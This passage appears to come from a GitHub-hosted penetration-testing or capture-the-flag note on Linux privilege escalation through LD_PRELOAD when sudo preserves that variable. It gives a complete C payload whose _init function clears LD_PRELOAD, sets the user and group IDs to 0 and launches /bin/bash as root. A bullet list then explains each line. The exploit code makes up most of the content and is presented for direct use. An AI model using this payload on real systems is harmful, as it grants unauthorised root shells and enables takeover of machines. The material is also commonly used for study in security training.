 ![image](https://user-images.githubusercontent.com/96658935/147622984-7193ceee-663b-4649-b16c-65016f201af4.png)


This means we can run a script before any other libraries. When you run sudo -l and see this output do the following:


```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```
* save file as [x].c so it can be compiled.
* This code includes standard io,sys types, and standard libraries.
* Then it unsets the library preload which is LD_PRELOAD.
* Then set setgid and setuid to zero which is root.
* Then the system executes /bin/bash.




